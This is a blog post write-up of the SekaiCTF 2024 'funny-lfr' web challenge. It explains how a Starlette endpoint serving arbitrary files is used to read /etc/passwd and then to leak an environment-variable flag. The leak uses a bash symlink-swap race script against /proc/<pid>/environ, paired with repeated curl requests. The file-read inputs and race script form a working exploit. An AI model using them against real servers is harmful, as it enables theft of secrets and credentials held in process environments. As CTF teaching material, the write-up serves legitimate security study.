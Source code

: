 ```yaml
---
layout: post
title: "funny-lfr - sekaictf2024"
date: 2024-08-23 16:00:00
categories: writeups
tags: web starlette race
excerpt: Race condition with symlinks in starlette leads to env read
mathjax: false
---
```

* content
{:toc}
183 points - 36 solves

**Challenge author**: irogir

{: .note }
This challenge came with an ssh access for `convenience`, but we ended up using it as part of the solve...

### Challenge Description
Funny lfr

We are given a Starlette server that looks like this:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile that looks like this:

```Dockerfile
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

From the Dockerfile, we need to read an environment variable named FLAG to get the flag.

The website serves us any file from the server.

Spinning up the Dockerfile on port 1337 locally, we can go to `http://localhost:1337/?file=/etc/passwd` and get the contents of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Typically on linux systems, the current process environment variables are stored in `/proc/<pid>/environ`. The current process has its environment variables in `/proc/self/environ`. We can use this to read the environment variables of the running process.

At first glance this seems easy right? Just go to `http://localhost:1337/?file=/proc/self/environ` and we should get the flag.

But when we try to do that, we are recieved by an empty page?

![empty](../../../../images/empty_page.png)

Checking the error logs of the server we see 
```
h11._util.LocalProtocolError: Too much data for declared Content-Length
```

How can such a small file be too much data for the declared Content-Length?

After taking a closer look at Starlette's source code on github, we find that it [uses os.stat to determine file size](https://github.com/encode/starlette/blob/master/starlette/responses.py#L325).

![os.stat](../../../../images/os_stat.png)

Lets see what stat says about our `/proc/self/environ` file.

![stat_output](../../../../images/stat_output.png)

Strangely enough it says the file size is 0 bytes. But we know that the file is not empty.

After some research this is because the `/proc` directory is actually in the `procfs` filesystem. This filesystem is a virtual filesystem that doesnt contain actual files. [See more info on procfs here](https://en.wikipedia.org/wiki/Procfs).

My first thought now, is to try and find some other file that might contain a process's environment variables.

I was curious about where the kernel stores the environment variables of a process, and took a deep dive into the c `getenv` function. Ultimately this ended up being a dead end.

I also wrote a small script to search every single file on the file system for the word `SEKAI{` and found nothing.

After being stuck at this step for a while, a teammate of mine came up with the idea that there could be a race condition with `os.stat` and symlinks.

A [symlink](https://www.komprise.com/glossary_terms/symbolic-link/) is a file that points to another file. If we can create a symlink to a random file with content-length greater than the length of `/proc/self/environ` , we can try to swap the symlink to `/proc/self/environ` while the server is running `os.stat`.

This way, the server stats a file with a large content-length, then the symlink is swapped to `/proc/self/environ`, and then the server reads from `/proc/self/environ` instead of the original file.

A small diagram of this is shown below.

![symlink_swap_diagram](../../../../images/symlink_swap_diagram.png)

What's the best way to achieve this race condition? 

Beloved `brute force` of course!

{: .note }
`/proc/self/environ` will be different for each process, so we need to find out the pid of the server with something like `ps aux` and replace `self` with the pid. From now on I will be using this `pid`, in my case `7` in place of `self`.

Since this challenge gives us ssh access for some reason, we can write a bash script to repeatedly swap the symlink between some large file and `/proc/7/environ`.

The script is shown below:

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/bruh
ln -s /tmp/bruh /tmp/asd

while true; do
    ln -sf /proc/7/environ /tmp/asd
    ln -sf /tmp/bruh /tmp/asd
done
```

The script echos 5000 `A`'s into a file `/tmp/bruh`, and then creates a symlink `/tmp/asd` to `/tmp/bruh`.

Then it enters an infinite loop, where it swaps the symlink between `/proc/7/environ` and `/tmp/bruh`.

We can run this script on the server, and then spam curl requests to `http://localhost:1337/?file=/tmp/asd` until we get the flag.

Trying this on remote we get... `Internal Server Error`?

What is going on? The script worked locally but on remote we get an internal server error?

After some debugging we find that `/tmp` is a directory that has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set. This gives the webserver permission denied when it tries access the contents of the symlink.

We can fix this by creating a new directory in `/tmp` and running the script there.

Here I call this directory `b`, and we can rereun the script in the `/tmp/b` directory.

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/b/bruh
ln -s /tmp/b/bruh /tmp/b/asd

while true; do
    ln -sf /proc/7/environ /tmp/b/asd
    ln -sf /tmp/b/bruh /tmp/b/asd
done
```

Running this on remote, and spamming a couple curl requests gets the content of `/proc/7/environ` and we get the flag!

SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}

### My Thoughts

This was a fun challenge that was seemingly easy at first, but ended up being a bit more difficult than anticipated. I decided to write this one up even though it had a lot of solves because it used the Starlette library itself as a jail, and I thought that was pretty cool. 

Also [funny video of solve here](https://streamable.com/iajafe)


